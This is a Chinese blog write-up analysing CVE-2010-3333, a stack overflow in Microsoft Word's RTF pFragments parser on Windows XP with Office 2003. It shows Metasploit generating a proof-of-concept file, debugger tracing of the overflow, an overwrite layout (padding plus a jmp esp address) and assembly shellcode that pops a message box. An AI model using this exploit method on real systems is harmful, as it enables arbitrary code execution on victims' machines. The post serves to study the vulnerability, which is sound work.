


# CVE-2010-3333 - 五千年木 - 博客园

> 原文：[`www.cnblogs.com/elvirangel/p/7629886.html`](https://www.cnblogs.com/elvirangel/p/7629886.html)

## 环境

```
windows xp sp3
office 2003 sp0
windbg
ollydbg
vmware 12.0
```

## 0x00 RTF 格式

RTF 是 Rich TextFormat 的缩写，意即富文本格式。

...（详细分析再议）

## 0x01 漏洞分析

### 1.利用 Metasploit 生成可触发漏洞的 Poc 样本

```
msf > search cve-2010-3333

Matching Modules
================

   Name                                                    Disclosure Date  Rank   Description
   ----                                                    ---------------  ----   -----------
   exploit/windows/fileformat/ms10_087_rtf_pfragments_bof  2010-11-09       great  MS10-087 Microsoft Word RTF pFragments Stack Buffer Overflow (File Format)

msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf exploit(ms10_087_rtf_pfragments_bof) > info

       Name: MS10-087 Microsoft Word RTF pFragments Stack Buffer Overflow (File Format)
     Module: exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
   Platform: Windows
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Great
  Disclosed: 2010-11-09

Provided by:
  wushi of team509
  unknown
  jduck <jduck@metasploit.com>
  DJ Manila Ice, Vesh, CA

Available targets:
  Id  Name
  --  ----
  0   Automatic
  1   Microsoft Office 2002 SP3 English on Windows XP SP3 English
  2   Microsoft Office 2003 SP3 English on Windows XP SP3 English
  3   Microsoft Office 2007 SP0 English on Windows XP SP3 English
  4   Microsoft Office 2007 SP0 English on Windows Vista SP0 English
  5   Microsoft Office 2007 SP0 English on Windows 7 SP0 English
  6   Crash Target for Debugging

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  FILENAME  msf.rtf          yes       The file name.

Payload information:
  Space: 512
  Avoid: 1 characters

Description:
  This module exploits a stack-based buffer overflow in the handling 
  of the 'pFragments' shape property within the Microsoft Word RTF 
  parser. All versions of Microsoft Office 2010, 2007, 2003, and XP 
  prior to the release of the MS10-087 bulletin are vulnerable. This 
  module does not attempt to exploit the vulnerability via Microsoft 
  Outlook. The Microsoft Word RTF parser was only used by default in 
  versions of Microsoft Word itself prior to Office 2007\. With the 
  release of Office 2007, Microsoft began using the Word RTF parser, 
  by default, to handle rich-text messages within Outlook as well. It 
  was possible to configure Outlook 2003 and earlier to use the 
  Microsoft Word engine too, but it was not a default setting. It 
  appears as though Microsoft Office 2000 is not vulnerable. It is 
  unlikely that Microsoft will confirm or deny this since Office 2000 
  has reached its support cycle end-of-life.

References:
  https://cvedetails.com/cve/CVE-2010-3333/
  OSVDB (69085)
  https://technet.microsoft.com/en-us/library/security/MS10-087
  http://www.securityfocus.com/bid/44652
  http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=880

msf exploit(ms10_087_rtf_pfragments_bof) > set target 6
target => 6
msf exploit(ms10_087_rtf_pfragments_bof) > exploit

[*] Creating 'msf.rtf' file ...
[+] msf.rtf stored at /home/moonagirl/.msf4/local/msf.rtf

```

获取样本后，我们利用 windbg 进行分析。

### 2.样本分析

打开 WINWORD.exe，并用 windbg 附加进场，再打开 msf.rtf 触发异常。


从打印信息里可以知道是 mso.dll 出问题了，执行到 30e9eb88 的时候程序异常了。

我们假设发生异常的地址 30e9eb88 在 vuln 函数中。然后我们再重新运行一遍，并且事先在 30e9eb88 处下一个断点。


运行后打开 msf.rtf 在 30e9eb88 停下。断下后，查看栈回溯，看看是哪个函数调用到了 vuln 函数的。

　　　　

图中，mso!Ordinal6426+0x64d 函数就是 vuln 函数，那么调用它的函数就是 mso!Ordinal1753+0x306e。然后我们再想办法看看 mso!Ordinal1753+0x306e 函数里发生了什么。


由上可知，mso!Ordinal1753+0x306e 函数地址为 30f4cc5d.我们再重新附加 msf.rtf，并实先在 30f4cc5d 处下断点。


于是便进入了 30f4cc5d 函数处，也就是调用 vuln 函数的函数里。F10 单步执行看看该函数中发生了什么。


这里该函数开辟了 0x14 字节的栈空间。继续跟踪。跟踪到调用 vuln 函数的地方。


按 F8 进入 vuln 函数。可以发现用 req movs 指令复制内存时，ecx 的值为 c8ac,即复制数据的大小。



回头看下 msf.rtf 样本数据，可以发现上面的 c8ac 其实是来源于样本数据的。它位于 pFragements 属性值得第三个字段，偏移 8 个字符后的 4 个字符即为复制的数据大小。



而 c8ac 后面的数据就是实际内存复制的数据，我们可以从内存源地址 esi 中看出来。


复制内存的目标地址 edi 刚好偏移栈底 ebp 共 0x10 个字节，加上 edp 本身占用的 4 字节，刚好共 0x14 字节，再覆盖下去就是函数的返回地址了。


### 总结：由于 Word 中的 RTF 分析器在解析 pFragments 属性值时，没有正确计算属性值所占用的空间大小，只要复制的数据大小超过 0x14 即可覆盖到函数返回地址，进而控制程序的执行流程，用于执行恶意程序。（这里 RTF 分析器在复制数据时会把每两个相邻的数字解析成一个 16 进制数转成对应的 ascii 复制进内存。例如：在 rtf 中是 30 复制进内存被解析成 0。因此 0x14 个字节在 rtf 中要用 40 个垃圾字符来填充。）       (：强行解释一波...hhhhhh

### 3.漏洞利用

我们只需将返回地址用 jmp esp 指令地址覆盖，例如：‘a’ * 40 + （jmp esp 地址）。然后将 shellcode 放在后面，即可执行任意代码。由于 vuln 函数返回前会弹出 0x14 大小的栈空间，因此我们需要填充一些垃圾字符。例如：‘a’*40 + （jmp esp 地址） + 'a'*40 + shellcode.


下面开始编写 shellcode.

jmp esp 的地址可以通过 windbg 在 mso.dll 中找到。


MessageBoxA 函数地址可以通过 od 找到。为 0x77D507EA


构造 shellcode.

```
xor ebx,ebx
push ebx    // cut string   53
push 0x20206c72
push 0x6967616e
push 0x6f6f6d20
push 0x6d612069

mov eax,esp
push ebx    // Type
push eax    // 
push eax    // Text
push ebx    // hWnd

mov eax,0x77D507EA    // address of messageboxA
call eax

push ebx
mov eax,0x7c81CAFA
call eax    // FFD0
```

最后有(注意小写，内部有检测机制)!!!!!!!!!

## 0x02 利用成功

